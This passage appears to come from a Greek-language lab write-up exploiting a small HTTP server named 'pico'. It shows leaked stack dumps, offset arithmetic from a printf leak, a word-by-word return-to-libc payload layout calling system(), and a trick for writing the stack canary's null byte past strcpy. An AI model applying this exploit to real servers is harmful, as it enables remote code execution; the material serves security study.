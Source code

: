      06a3e310 0000006f 56568511 f7c10d80 00000000 56a2e346 
     5656b180 f7c10d80 00000000 56a3e310 00000078 00000000 
     00000001 56a3e310 56a3e37f 56a3e380 0000006f ff9c8be8 
     f7aa8ff2 f7c10d80 00000000 00000000 00000000 f7aa8fd7 
     f7c0e880 f7c10d80 9764c600 f7c10d80 5656af04 ff9c8bf8 
     565680c2 5656b180 56a2e346 ff9c8bf8 56568075 f7c10ce0 
     565696e5

Και το παραπλανω workflow μας δίνει την εξής εικόνα της μνήμης:

	0xff9c8b70:	0x5656b186	0x00000000	0x56a3e310	0x565687ff
	0xff9c8b80:	0x56a3e316	0x00000005	0x329c8be8	0x565693ff
	0xff9c8b90:	0x37393266	0x61373561	0x34376135	0x34393833
	0xff9c8ba0:	0x00000000	0xff9c8b70	0x00336366	0x9764c600
	0xff9c8bb0:	0x5656af04	0xf7ee5004	0xff9c8bf8	0x565681b8
	0xff9c8bc0:	0x565693ff	0x56a2e300	0xff9c8bf8	0x56568075
```
Όμοια με τον τρόπο που βρήκαμε την διεύθυνση της system() ψάχνουμε μια διεύθυνση που να ξεκινάει με το ίδιο πρόθεμα με τις διευθύνσεις που βλέπουμε στην πτώτη στήλη (τη στήλη με τις διευθύνσεις) Για το script μας επιλέξαμε να βρούμε την διεύθυνση στην αρχή της γραμμής του canary δηλαδή την '0xff9c8ba0'.
Το word από το output της printf που είναι πιο κοντά στην διεύθυνση αυτή είναι ο αντίστοιχος esi της check_auth που γίνεται leak από την printf. Έτσι με μια απλή αφαίρεση, βρήκαμε το offset των δύο να είναι `0xff9c8bf8 - 0xff9c8ba0 = 0x58`. Εφόσον μπορούμε πλέον να βρίσκουμε έτσι την διεύθυνση της αρχής της σειράς του canary, μπορούμε πλεον να γνωρίζουμε την διεύθυνση οποιασδήποτε λέξης μέσα στην post_param. Έτσι, βρίσκουμε την διεύθυνση που ψάχνουμε `eip + 12 = 0xff9c8ba0 + 0x28 = 0xff9c8bf8 - 0x58 + 0x28`.


---

Έχοντας πλέον βρεί όλα όσα χρειαζόμαστε για να εκτελέσουμε την επίθεση, αρκεί λίγος πειραματισμός για να τα βάλουμε όλα μαζί ως εξής:
```
13 words - τυχαίο περιεχόμενο 
1  word  - το address της post_data ωστε να μην σκάει segmentation fault
1  word  - τυχαίο περιεχόμενο
1  word  - το canary ωστε να μην τρωει stack smashed
1  word  - ο ebx
1  word  - ο ebp
1  word  - ο esi
1  word  - return address - η διευθυνση της system
1  word  - τυχαιο περιεχόμενο
1  word  - pointer στο επομενο word
x  words - όσα words χρειαζονται για το string το οποίο θα δωθεί σαν argument στην system

 > Tις τιμές των post_data, ebx, edp και esi τις πήραμε με το workflow που περιγράφηκε παραπάνω για την εύρεση του address εντός της post_param 
 > Για τα words που λέμε οτι έχουν τυχαίο περιεχόμενο, αρκεί να μην έχει μέσα '\0' και σταματήσει την strcpy, εμεις επιλέξαμε να βάλουμε 
 'ffffffff' για να φαίνεται εύκολα με το μάτι στον debugger

Σημείωση 1: Το Canary περιέχει την τιμή '\0' η οποία σταματάει την strcpy, οπότε πρέπει να βρούμε κάποιο άλλο τρόπο να την γράψουμε στη μνήμη. 
Ευτυχώς για μας, στον κώδικα της post param, ακριβως μετά την strcpy, υπάρχει ένα loop το οποίο αντικαθιστά τους χαρακτήρες '&' και '=' με '\0' 
(λογικό γτ έτσι γίνονται εύκολα parse οι παράμετροι του url, αλλα η υλοποίηση αυτή που διευκόλυνε τον αρχικό προγραμματιστή του pico είναι 
και αυτή η οποία μας επιτρέπει τελικά να εισάγουμε την τιμή του canary με το 00 και να κάνουμε return-to-libc) 
Έτσι, στο script μας, αλλάζουμε το τελευταίο byte του canary από 0x00 σε 0x26 το οποίο είναι το '&' στ δεκαεξαδικό, 
και η for που αναφέραμε επαναφέρει το '00' στο τέλος του canary.
